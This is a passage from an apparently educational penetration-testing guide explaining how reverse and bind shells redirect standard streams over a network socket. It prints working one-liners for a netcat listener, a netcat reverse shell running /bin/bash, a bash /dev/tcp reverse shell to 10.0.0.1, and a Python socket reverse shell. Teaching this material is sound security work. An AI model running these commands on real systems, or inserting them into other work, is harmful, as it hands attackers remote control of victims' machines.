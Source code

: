 ![Principles of a remote shell redirecting stdin, stdout and stderror over a network socket](../.gitbook/assets/0%20%282%29.png)

This entire process is made simpler through the use of a program called Netcat that can handle the IO redirection for a program over a network. In what is called a “reverse shell”, you start a Netcat session on a local machine to listen for incoming connections:

`nc -lvnp 6001`

This tells netcat to listen \(-l\) on port \(-p\) 6001 \(any number port that is not being used\) on all IP addresses for incoming connections \(-v is for verbose output, -n is for no DNS\). On the target machine, you can run:

`nc <listen machine IP> 6001 -e /bin/bash`

This will execute bash and send all IO to the listening machine.

An alternative to reverse shells are “bind shells”. In this case the process listens on the attacking machine and the attacker initiates the connection from the attacking machine. The commands are the same but reversed.

Netcat is one tool to create a reverse shell. There are numerous other ways of achieving the same result of handling the standard streams. Another common and useful way of sending a reverse shell is by using built in networking functions of bash.

`bash -i >& /dev/tcp/10.0.0.1/6001 0>&1`

Although this looks complicated, it is running a bash shell in interactive mode \(-i\) and redirecting stdout and stderr \(&gt;&\) to a socket that will connect to the address and port specified \(/dev/tcp/10.0.0.1/6001\). The final redirection command \(0&gt;&1\) redirects stdin to the same file as stdout i.e. the socket.

At the other end, you can still use Netcat in listening mode to handle the incoming connection.

There are a range of ways of running reverse shells in different languages listed on sites like PayloadsAllTheThings[\[1\]](initial-access.md). An example of a reverse shell written in Python is

```bash
python3 -c 'import socket,subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",6001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

